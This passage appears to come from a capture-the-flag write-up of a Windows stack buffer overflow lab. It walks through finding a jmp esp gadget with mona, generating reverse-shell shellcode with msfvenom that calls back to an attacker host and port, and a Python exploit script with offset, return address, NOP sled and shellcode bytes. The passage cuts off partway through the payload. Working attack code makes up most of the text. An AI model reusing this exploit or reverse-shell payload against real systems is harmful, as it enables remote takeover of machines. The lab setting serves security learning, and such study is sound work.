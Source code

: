 Finally, we got:

```
Hooray, normal shellcode unmodified
```

Means that the bad char hunting is over, we now need to proceed with finding the `jmp esp` gadget, we need to run:

```
!mona jmp -r esp -cpb "\x00\x01\x02\x07\x08\x20\x2e\x2f\xa0\xa1"
```

![](cybersecurity/images/Pasted%2520image%252020250529125932.png)

As seen, we get some jmp esp gadgets, let's choose the first one:

```
0x625011AF
```

In our exploit, we need to change it too little-endian:

```python
retn = "\xaf\x11\x50\x62"
```

Now, we are approaching the end, we need to use `msfvenom` to generate the shellcode, let's do:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.21.28 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x07\x08\x20\x2e\x2f\xa0\xa1" -f c
```

We need to copy the output to our payload and add a NOP sled, here's the full script I got:

```python
#!/usr/bin/env python3

import socket

# Target configuration
ip      = "10.10.199.216"
port    = 1337

# Exploit parameters
prefix  = "OVERFLOW1 "          # Command prefix
offset  = 1978                   # offset to EIP
overflow= "A" * offset          # filler to reach EIP
# Return address: jmp esp in essfunc.dll (0x625011AF) little-endian
retn    = "\xaf\x11\x50\x62"
# NOP sled
padding = "\x90" * 32

# Shellcode (Generate with msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c)
payload = (
    b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
    b"\x0e\xb6\xd6\x8d\xcd\x83\xee\xfc\xe2\xf4\x4a\x3e\x0f\xcd"
    b"\xb6\xd6\xed\x44\x53\xe7\x4d\xa9\x3d\x86\xbd\x46\xe4\xda"
    b"\x06\x9f\xa2\x5d\xff\xe5\xb9\x61\xc7\xeb\x87\x29\x21\xf1"
    b"\xd7\xaa\x8f\xe1\x96\x17\x42\xc0\xb7\x11\x6f\x3f\xe4\x81"
    b"\x06\x9f\xa6\x5d\xc7\xf1\x3d\x9a\x9c\xb5\x55\x9e\x8c\x1c"
    b"\xe7\x5d\xd4\xed\xb7\x05\x06\x84\xae\x35\xb7\x84\x3d\xe2"
    b"\x06\xcc\x60\xe7\x72\x61\x77\x19\x80\xcc\x71\xee\x6d\xb8"
    b"\x40\xd5\xf0\x35\x8d\xab\xa9\xb8\x52\x8e\x06\x95\x92\xd7"
    b"\x5e\xab\x3d\xda\xc6\x46\xee\xca\x8c\x1e\x3d\xd2\x06\xcc"
    b"\x66\x5f\xc9\xe9\x92\x8d\xd6\xac\xef\x8c\xdc\x32\x56\x89"
    b"\xd2\x97\x3d\xc4\x66\x40\xeb\xbe\xbe\xff\xb6\xd6\xe5\xba"
    b"\xc5\xe4\xd2\x99\xde\x9a\xfa\xeb\xb1\x29\x58\x75\x26\xd7"
```
